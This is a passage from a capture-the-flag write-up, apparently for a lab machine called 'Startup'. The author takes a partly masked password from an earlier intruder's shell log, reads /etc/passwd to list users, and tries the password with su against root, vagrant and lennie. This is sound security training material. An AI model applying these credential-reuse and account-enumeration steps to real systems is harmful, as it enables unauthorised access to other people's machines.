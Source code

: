 ```
ls
lennie
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: c4n******sp1c3

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: c4nt******1c3

sudo: 3 incorrect password attempts
```
The attacker that was on the box, tried a password for www-data which seems to be the wrong one, but good thing for us is that we get a credential. So lets try this credential out with the users on the box. 


### Listing users on the box with shell
```console
www-data@startup:/$ cat /etc/passwd | grep -i sh | grep -v ssh
root:x:0:0:root:/root:/bin/bash
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
```
We have two accounts, which have a login shell. So lets test the password with these two accounts.

### logging as root
```console
www-data@startup:/$ su -   
Password: 
su: Authentication failure
```

### loggin as vagrant
```console
www-data@startup:/$ su vagrant
Password: 
su: Authentication failure
```

But if we check the /home directory,we have a home directory for another user.
```console
www-data@startup:/$ ls -la /home
total 12
drwxr-xr-x  3 root   root   4096 Nov  9 02:15 .
drwxr-xr-x 26 root   root   4096 Nov  9 06:35 ..
drwx------  4 lennie lennie 4096 Nov  9 08:15 lennie
www-data@startup:/$ cat /etc/passwd | grep -i lennie
lennie:x:1002:1002::/home/lennie:
```
User lennie does exist. So, lets try to login as lennie with the above password.
